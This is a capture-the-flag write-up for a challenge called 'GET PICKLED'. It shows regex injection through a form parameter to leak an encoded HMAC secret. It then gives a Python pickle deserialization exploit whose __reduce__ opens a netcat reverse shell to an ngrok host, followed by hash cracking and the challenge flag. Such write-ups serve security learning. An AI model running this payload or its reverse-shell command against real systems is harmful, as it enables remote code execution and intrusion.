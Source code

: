 # GET PICKLED

On opening the website, We would be given some hints and a sample form.


The form says it returns a country along with its capital.

So, if we enter India as the country, we get the response:

```
Country India Capital New Delhi
```

By looking at the source code for the /form route we get this:
```
results += re.findall(r"^(?:Country\s)" + name+r"(?:\sCapital\s.*)",line, flags=key)
```
We get to know that the `name` variable is passed in the regular expression. Opening Postman or any other tool for sending requests, we try to send special characters in the `name` variable.

If we pass name as ".*" which is used to accept any strings and the key value as 0 which means it should be case sensitive, our regex would look like,

```
^(?:Country\s).*(?:\sCapital\s.*)
```

which would give the response:
```
Country India Capital New Delhi
Country USA Capital WashingtonDC
Country UK Capital London
Country France Capital Paris
Country Australia Capital Canberra
Country Austria Capital Vienna
Country Italy Capital Rome
Country Pakistan Capital Islamabad
Country Brazil Capital Brasília
Country Argetina Capital Buenos Aires
```
But if we change the `key` value to `2`, it ignores the case and returns all the contents of the file:
```
Country India Capital New Delhi
Country USA Capital WashingtonDC
Country UK Capital London
Country France Capital Paris
Country Australia Capital Canberra
Country Austria Capital Vienna
Country Italy Capital Rome
Country Pakistan Capital Islamabad
Country Brazil Capital Brasília
Country Argetina Capital Buenos Aires
country chall capital flag not here
country actualchall capital this is your secret (definitely not a cipher)
country blfisnzxhvxivgrh:wlmggifhgkrxpovh&svivrhblfiilfgvglvckolrg:gsvilfgvdsrxsnfhgmlgyvmznvw capital yougotit

```
We see this unique cipher text

```
blfisnzxhvxivgrh:wlmggifhgkrxpovh&svivrhblfiilfgvglvckolrg:gsvilfgvdsrxsnfhgmlgyvmznvw
```

Looking for cipher on cipher identifier such as [dcode](https://www.dcode.fr/cipher-identifier) we get to know that this is an Atbash Cipher and we get the below plaintext:

```
yourhmacsecretis:donttrustpickles&hereisyourroutetoexploit:theroutewhichmustnotbenamed
```
Hence, we get the hmac secret key for signing the pickled data and the route to perform the pickle deserialization.

RCE is possible with python's pickle module because during deserialization using the function `pickle.loads()` , the contents under the function `__reduce__` gets executed always, leading to arbitrary code execution.

However by just encoding the reverse shell command without signing it with hmac and sending it would give the error:

```
Integrity Check Failed, I think I have secured my server or have I?
```


So we have to use hmac library in python to sign the malicious pickle payload.

Looking at the source code, we can generate the below payload:

```
import base64
import os

import pickle
import hmac
import hashlib



class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.in.ngrok.io PORT_NO -e /bin/sh')
        return os.system, (cmd,)


pickled_data = pickle.dumps(RCE())
digest = hmac.new('donttrustpickles'.encode(), pickled_data, hashlib.sha1).hexdigest()
header = f"{digest} ".encode()
data = header + pickled_data
data_send= base64.urlsafe_b64encode(data)
print(data_send)
```

Start a ngrok proxy on a port say 1234 and add the ngrok proxy port number in the above exploit.

This would give a payload. Start a netcat listener on the same port 1234 and after sending the crafted payload to the route, we would get a shell.

After navigating through the directories, we can find the flag inside /pickle/ctf/is/very/fun/flag.txt

But it is avaialble only to the user `pickle`, whose password is hashed and stored in an image `ctf.jpeg` in our `app` folder. 
Running either `strings ctf.jpeg` or just `cat ctf.jpeg`, we would get the hashed password of pickle.

Cracking the hash using websites like [crackstation](https://crackstation.net/), we would get the pickle password as `regex`. 

Switching to `pickle` user, we can view the contents of `flag.txt`.

```
p_ctf{p1cKle_Is_v3ry_bAd}
```

